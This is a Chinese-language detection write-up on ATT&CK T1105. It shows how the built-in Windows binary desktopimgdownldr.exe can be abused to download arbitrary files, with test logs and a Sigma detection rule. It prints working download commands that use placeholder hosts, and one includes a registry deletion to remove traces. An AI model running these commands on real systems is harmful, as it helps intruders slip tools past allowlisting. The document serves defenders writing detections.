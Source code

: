 # T1105-Win-入口工具转移-desktopimgdownldr.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

desktopimgdownldr.exe位于Win10的system32文件夹中，原本用于设置锁定屏幕或桌面背景图像的。

**路径:**

```bash
- c:\windows\system32\desktopimgdownldr.exe
```

普通用户可以用以下命令来实现文件下载：

```bash
set "SYSTEMROOT=C:\ProgramData" && cmd /c desktopimgdownldr.exe /lockscreenurl:http://url/xxx.exe /eventName:desktopimgdownldr
```

管理员会多写一个注册表项，所以管理员的命令如下：

```bash
set "SYSTEMROOT=C:\ProgramData\" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://url/file.exe /eventName:desktopimgdownldr && reg delete HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP /f
```

用例：从Web服务器下载任意文件
所需权限：用户
操作系统：Windows 10

## 检测日志

Windows 安全日志

## 测试复现

```bash
C:\Users\liyang\Desktop\asptest>set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```

## 测试留痕

```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x24a4

新进程名称: C:\Windows\System32\desktopimgdownldr.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x2588

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: desktopimgdownldr.exe  /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```

## 检测方法/思路

参考Sigma官方规则:

```yml
title: Suspicious Desktopimgdownldr Target File

id: fc4f4817-0c53-4683-a4ee-b17a64bc1039

status: experimental

description: Detects a suspicious Microsoft desktopimgdownldr file creation that stores a file to a suspicious location or contains a file with a suspicious extension

author: Florian Roth

date: 2020/07/03

references:

- https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

- https://twitter.com/SBousseaden/status/1278977301745741825

logsource:

product: windows

category: file_event

tags:

- attack.defense_evasion

- attack.t1105

detection:

selection:

Image|endswith: svchost.exe

TargetFilename|contains: '\Personalization\LockScreenImage\'

filter1:

TargetFilename|contains: 'C:\Windows\'

filter2:

TargetFilename|contains:

- '.jpg'

- '.jpeg'

- '.png'

condition: selection and not filter1 and not filter2

fields:

- CommandLine

- ParentCommandLine

falsepositives:

- False positives depend on scripts and administrative tools used in the monitored environment

level: high
```

### 建议

从Sigma和elastic给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

command_and_control_remote_file_copy_desktopimgdownldr

<https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/command_and_control_remote_file_copy_desktopimgdownldr.toml>

win_susp_desktopimgdownldr_file

<https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/file_event/win_susp_desktopimgdownldr_file.yml>

Desktopimgdownldr.exe

<https://lolbas-project.github.io/lolbas/Binaries/Desktopimgdownldr/>
